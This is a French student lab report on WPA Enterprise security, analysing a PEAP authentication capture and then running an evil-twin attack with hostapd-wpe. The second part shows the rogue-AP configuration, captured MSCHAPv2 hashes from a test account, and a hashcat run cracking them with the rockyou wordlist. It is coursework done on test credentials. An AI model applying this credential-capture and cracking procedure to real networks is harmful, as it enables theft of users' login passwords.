- [Livrables](#livrables)

- [Échéance](#%c3%89ch%c3%a9ance)

- [Quelques éléments à considérer](#quelques-éléments-à-considérer-pour-les-parties-2-et-3-)

- [Travail à réaliser](#travail-%c3%a0-r%c3%a9aliser)

# Sécurité des réseaux sans fil

## Laboratoire 802.11 Sécurité WPA Entreprise

__A faire en équipes de deux personnes__

### Objectif :

1.	Analyser les étapes d’une connexion WPA Entreprise avec une capture Wireshark
2.	Implémenter une attaque WPE (Wireless Pwnage Edition) contre un réseau WPA Entreprise


## Quelques éléments à considérer pour les parties 2 et 3 :

Les parties 2 et 3 nécessitent du matériel particulier. Si vous avez travaillé jusqu'ici avec l'interface WiFi interne de votre laptop, il y a des fortes probabilités qu'elle puisse aussi être utilisée pour les attaques Entreprise. Cela dépendra de la capacité de votre interface d'être configurée en mode AP. Ces attaques ne fonctionnent pas avec toutes les interfaces Alfa. Il faudra utiliser le bon modèle.

En principe, il devrait être possible de démarrer vos machines en Kali natif (à partir d'une clé USB, avec une distro live par exemple) ou d'employer une autre version de Linux si vous voulez utiliser votre propre interface 

## Voici quelques informations qui peuvent vous aider :

- Solution à l’erreur éventuelle « ```Could not configure driver mode``` » :

```
nmcli radio wifi off
rfkill unblock wlan
```
-	Pour pouvoir capturer une authentification complète, il faut se déconnecter d’un réseau et attendre 1 minute (timeout pour que l’AP « oublie » le client) 
-	Les échanges d’authentification entreprise peuvent être facilement trouvés utilisant le filtre d’affichage « ```eap``` » dans Wireshark
-   Il est __impératif__ de bien fixer le cannal lors de vos captures


## Travail à réaliser

### 1. Analyse d’une authentification WPA Entreprise

Dans cette première partie (la moins fun du labo...), vous allez capturer une connexion WPA Entreprise au réseau de l’école avec Wireshark et fournir des captures d’écran indiquant dans chaque capture les données demandées.

A tittre d'exemple, voici [une connexion WPA Entreprise](files/auth.pcap) qui contient tous les éléments demandés. Vous pouvez utiliser cette capture comme guide de ce que la votre doit contenir. Vous pouvez vous en servir pour votre analyse __comme dernière ressource__ si vos captures ne donnent pas le résultat désiré ou s'il vous manquent des éléments importants dans vos tentatives de capture.

Pour réussir votre capture, vous pouvez procéder de la manière suivante :

- 	Identifier l'AP le plus proche, en identifiant le canal utilisé par l’AP dont la puissance est la plus élevée (et dont le SSID est HEIG-VD...). Vous pouvez faire ceci avec ```airodump-ng```, par exemple
-   Lancer une capture avec Wireshark
-   Etablir une connexion depuis un poste de travail (PC), un smartphone ou n'importe quel autre client WiFi. __Attention__, il est important que la connexion se fasse à 2.4 GHz pour pouvoir sniffer avec les interfaces Alfa
- Comparer votre capture au processus d’authentification donné en théorie (n’oubliez pas les captures d'écran pour illustrer vos comparaisons !). En particulier, identifier les étapes suivantes :
	- Requête et réponse d’authentification système ouvert





 	- Requête et réponse d’association (ou reassociation)





	- Négociation de la méthode d’authentification entreprise (TLS?, TTLS?, PEAP?, LEAP?, autre?)





	- Phase d’initiation



	- Phase hello :
		- Version TLS



		- Suites cryptographiques et méthodes de compression proposées par le client et acceptées par l’AP



		- Nonces



		- Session ID



	- Phase de transmission de certificats
	 	- Echanges des certificats



		- Change cipher spec



	- Authentification interne et transmission de la clé WPA (échange chiffré, vu par Wireshark comme « Application data »)



	- 4-way handshake



### Répondez aux questions suivantes :
 
> **_Question :_** Quelle ou quelles méthode(s) d’authentification est/sont proposé(s) au client ?
> 
> **_Réponse :_** Pour se connecter au réseau de l'école, nous avons du
> spécifier l'authentification PEAP. Il n'y a pas d'autres méthodes proposées.

---

> **_Question:_** Quelle méthode d’authentification est finalement utilisée ?
> 
> **_Réponse:_**  PEAP

---

> **_Question:_**Arrivez-vous à voir l’identité du client dans la phase d'initiation ? Oui ? Non ? Pourquoi ?
> 
> **_Réponse:_** Oui, on trouve `mehdi.salhi`



---

> **_Question:_** Lors de l’échange de certificats entre le serveur d’authentification et le client :
> 
> - a. Le serveur envoie-t-il un certificat au client ? Pourquoi oui ou non ?
> 
> **_Réponse:_**
> Oui, le serveur envoie ses certificats pour s'authentifier auprès du client.
> - b. Le client envoie-t-il un certificat au serveur ? Pourquoi oui ou non ?


> 
> **_Réponse:_**
> Non, en mode PEAP, le client n'envoie pas de certificat car il utilise ses
> credentials (nom d'utilisateur, mot de passe) pour s'authentifier.

---

__ATTENTION__ : pour l'utilisation des deux outils suivants, vous __ne devez pas__ configurer votre interface en mode monitor. Elle sera configurée automatiquement par l'outil en mode AP.

### 2. Attaque WPA Entreprise (hostapd)

Les réseaux utilisant une authentification WPA Entreprise sont considérés aujourd’hui comme étant très surs. En effet, puisque la Master Key utilisée pour la dérivation des clés WPA est générée de manière aléatoire dans le processus d’authentification, les attaques par dictionnaire ou brute-force utilisés sur WPA Personnel ne sont plus applicables. 

Il existe pourtant d’autres moyens pour attaquer les réseaux Entreprise, se basant sur une mauvaise configuration d’un client WiFi. En effet, on peut proposer un « evil twin » à la victime pour l’attirer à se connecter à un faux réseau qui nous permette de capturer le processus d’authentification interne. Une attaque par dictionnaire ou même par brute-force peut être faite sur cette capture, beaucoup plus vulnérable d’être craquée qu’une clé WPA à 256 bits, car elle est effectuée sur le compte d’un utilisateur.

Pour faire fonctionner cette attaque, __il est impératif que la victime soit configurée pour ignorer les problèmes de certificats__ ou que l’utilisateur accepte un nouveau certificat lors d’une connexion. Si votre connexion ne vous propose pas d'accepter le nouveau certificat, faites une recherche pour configurer votre client pour ignorer les certificats lors de l'authentification.

Pour implémenter l’attaque :

- Installer [```hostapd-wpe```](https://www.kali.org/tools/hostapd-wpe/) (il existe des versions modifiées qui peuvent peut-être faciliter la tâche... je ne les connais pas mais si vous en trouvez une qui vous rend les choses plus faciles, vous pouvez l'utiliser et nous apprendre quelque chose ! Dans le doute, utiliser la version originale...). Lire la documentation [du site de l’outil](https://github.com/OpenSecurityResearch/hostapd-wpe), celle de Kali ou d’autres ressources sur Internet pour comprendre son utilisation
- Modifier la configuration de ```hostapd-wpe``` pour proposer un réseau semblable (mais pas le même !!!) au réseau de l’école ou le réseau de votre préférence, sachant que dans le cas d'une attaque réelle, il faudrait utiliser le vrai SSID du réseau de la cible
- Lancer une capture Wireshark
- Tenter une connexion au réseau (ne pas utiliser vos identifiants réels)
- Utiliser un outil de brute-force (```john```, ```hashcat``` ou ```asleap```, par exemple) pour attaquer le hash capturé (utiliser un mot de passe assez simple pour minimiser le temps)

### Répondez aux questions suivantes :

> **_Question :_** Quelles modifications sont nécessaires dans la configuration de hostapd-wpe pour cette attaque ?
> 
> **_Réponse :_** Il faut modifier les paramètres suivants pour indiquer la
> bonne interface, le ssid du réseau et le canal :

```
# Interface - Probably wlan0 for 802.11, eth0 for wired
interface=wlan0

# 802.11 Options
ssid=HEIJE
channel=1
```

Résultat de hostapd : 

```
┌──(kali㉿kali)-[~]
└─$ sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
[sudo] password for kali: 
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED 
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.11: authenticated
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.11: associated (aid 1)
wlan0: CTRL-EVENT-EAP-STARTED 84:cf:bf:91:c3:89
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'


mschapv2: Wed May 31 12:12:57 2023
         username:      meh
         challenge:     c0:45:7a:75:4b:fb:11:9d
         response:      5b:f1:d7:11:05:94:45:e3:2b:fa:f9:13:06:34:e3:b9:e4:e7:bf:34:3b:ed:b9:9c
         jtr NETNTLM:           meh:$NETNTLM$c0457a754bfb119d$5bf1d711059445e32bfaf9130634e3b9e4e7bf343bedb99c
         hashcat NETNTLM:       meh::::5bf1d711059445e32bfaf9130634e3b9e4e7bf343bedb99c:c0457a754bfb119d
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: CTRL-EVENT-EAP-FAILURE 84:cf:bf:91:c3:89
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: authentication failed - EAP type: 0 (unknown)
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Supplicant used different EAP type: 25 (PEAP)
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.11: authenticated
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.11: associated (aid 1)
wlan0: CTRL-EVENT-EAP-STARTED 84:cf:bf:91:c3:89
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'


mschapv2: Wed May 31 12:13:02 2023
         username:      meh
         challenge:     fc:b0:03:7d:d1:21:c9:4f
         response:      ed:fd:09:80:18:e9:ab:a1:79:77:aa:91:43:4c:48:b5:1b:60:08:de:52:5f:95:77
         jtr NETNTLM:           meh:$NETNTLM$fcb0037dd121c94f$edfd098018e9aba17977aa91434c48b51b6008de525f9577
         hashcat NETNTLM:       meh::::edfd098018e9aba17977aa91434c48b51b6008de525f9577:fcb0037dd121c94f
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: CTRL-EVENT-EAP-FAILURE 84:cf:bf:91:c3:89
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: authentication failed - EAP type: 0 (unknown)
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Supplicant used different EAP type: 25 (PEAP)
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.11: deauthenticated due to local deauth request
^Cwlan0: interface state ENABLED->DISABLED
wlan0: AP-DISABLED                                                                                                
wlan0: CTRL-EVENT-TERMINATING                                                                                     
nl80211: deinit ifname=wlan0 disabled_11b_rates=0  
```

On peut constater que nous obtenons les hash du mot de passe. Nous crackerons
ces hash avec hashcat à l'étape suivante.


---

> **_Question:_** Quel type de hash doit-on indiquer à john ou l'outil que vous avez employé pour craquer le handshake ?
> 
> **_Réponse:_** Nous avons utilisé hashcat. Il faut lui indiquer le type de
> hash `5500`, ce qui correspond, selon la documentation, à `5500 | NetNTLMv1 / NetNTLMv1+ESS `

Commande et résultat : 

Notre fichier de hash `hashcat` contient le hash suivant trouvé avec hostapd : 

```
meh::::edfd098018e9aba17977aa91434c48b51b6008de525f9577:fcb0037dd121c94f
```

```
$ hashcat -m 5500 --potfile-disable -d 1 hashcat /home/kali/Documents/rockyou.txt
hashcat (v6.2.6) starting

[...]

Dictionary cache built:
* Filename..: /home/kali/Documents/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 0 secs

meh::::edfd098018e9aba17977aa91434c48b51b6008de525f9577:fcb0037dd121c94f:coucou
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5500 (NetNTLMv1 / NetNTLMv1+ESS)
Hash.Target......: meh::::edfd098018e9aba17977aa91434c48b51b6008de525f...21c94f
Time.Started.....: Wed May 31 12:20:53 2023 (0 secs)
Time.Estimated...: Wed May 31 12:20:53 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/home/kali/Documents/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   168.0 kH/s (0.13ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10240/14344385 (0.07%)
Rejected.........: 0/10240 (0.00%)
Restore.Point....: 8192/14344385 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: total90 -> 1asshole
Hardware.Mon.#1..: Util: 27%

Started: Wed May 31 12:20:52 2023
Stopped: Wed May 31 12:20:54 2023
```

Nous avons utilisé le dictionnaire de mot de passe standard `rockyou`, qui
contient le mot de passe `coucou` utilisé lors de la connexion au réseau. On
peut constater que hashcat l'a trouvé : 

```
meh::::edfd098018e9aba17977aa91434c48b51b6008de525f9577:fcb0037dd121c94f:coucou
```


---

> **_Question:_** Quelles méthodes d’authentification sont supportées par hostapd-wpe ?
> 
> **_Réponse:_**  La documentation accessible sur la page https://github.com/aircrack-ng/aircrack-ng/tree/master/patches/wpe/hostapd-wpe indique les méthodes suivantes: 


```
hostapd-wpe supports the following EAP types for impersonation:

    EAP-FAST/MSCHAPv2 (Phase 0)
    PEAP/MSCHAPv2
    EAP-TTLS/MSCHAPv2
    EAP-TTLS/MSCHAP
    EAP-TTLS/CHAP
    EAP-TTLS/PAP
```


### 3. En option, vous pouvez explorer d'autres outils comme [eapeak](https://github.com/rsmusllp/eapeak) ou [crEAP](https://github.com/W9HAX/crEAP/blob/master/crEAP.py) pour les garder dans votre arsenal de pentester.

(Il n'y a pas de rendu pour cette partie...)

## Livrables

Un fork du repo original . Puis, un Pull Request contenant :

-	Captures d’écran + commentaires
-	Réponses aux questions

## Échéance

Le 1 juin 2023 à 23h59
